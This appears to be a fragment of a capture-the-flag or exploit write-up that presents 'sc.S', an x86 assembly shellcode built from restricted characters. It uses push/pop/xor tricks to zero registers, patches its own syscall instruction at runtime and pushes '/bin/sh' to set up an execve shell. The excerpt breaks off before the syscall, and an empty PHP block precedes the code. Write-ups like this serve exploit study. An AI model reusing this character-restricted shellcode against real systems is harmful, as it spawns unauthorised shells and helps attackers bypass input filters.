 ```php
```

### sc.S

```assembler
.intel_syntax noprefix

.global _start
_start:
	// eax = 0
	push 0x2f526558
	pop  eax
	xor  eax, 0x2f526558

	// ecx = 0
	push eax
	pop  ecx

	// edx = -1
	push eax
	pop  edx
	dec  edx

xor_cd:
	// eax = syscall
	xor eax, (0x77777030 + syscall - _start)
	xor byte ptr [eax], dh

xor_80:
	// can't inc eax >_>
	push ecx
	pop  eax
	xor  eax, (0x77777030 + syscall - _start + 1)
	xor  byte ptr [eax], dh

	push 0x48484848
	pop  edx
	xor  byte ptr [eax], dh

stack:
	// stack
	push ecx
	// [null]

	push 0x68732F2F // //sh
	//push 0x64692F2F // //id
	push 0x6e69622f // /bin
	push esp
	pop  edx

	// push : eax, ecx, edx, ebx, [skip], ebp, esi, edi
	push 0x41414141
	pop  eax
	xor  eax, 0x41414141 ^ 0x0B
	push eax

	// stack: execve /bin/sh NULL

	push ecx // ecx = 0
	push ecx // edx = 0
	push edx // ebx = "/bin/sh"
	push ecx // skipped
	push ecx // ebp = 0
```